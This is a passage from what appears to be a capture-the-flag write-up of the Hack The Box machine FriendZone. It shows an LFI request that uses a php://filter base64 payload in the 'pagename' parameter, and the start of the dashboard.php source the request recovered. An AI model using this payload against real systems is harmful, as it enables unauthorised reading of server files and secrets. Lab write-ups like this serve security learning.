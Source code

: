 If I try the parameters displayed on the page I get:

![](/assets/images/htb-writeup-friendzone/dashboard_params.png)

The image is linked to `/images`, but none of the files I tried to upload from the previous upload page are found in that directory.

![](/assets/images/htb-writeup-friendzone/images.png)

There's an LFI in the `pagename` parameter and I can use a PHP base64 encode filter to read files:

Request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=pagename=php://filter/convert.base64-encode/resource=dashboard`

![](/assets/images/htb-writeup-friendzone/dashboard_lfi.png)

The base64 encoded text is the source code for `dashboard.php`:

```php
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
```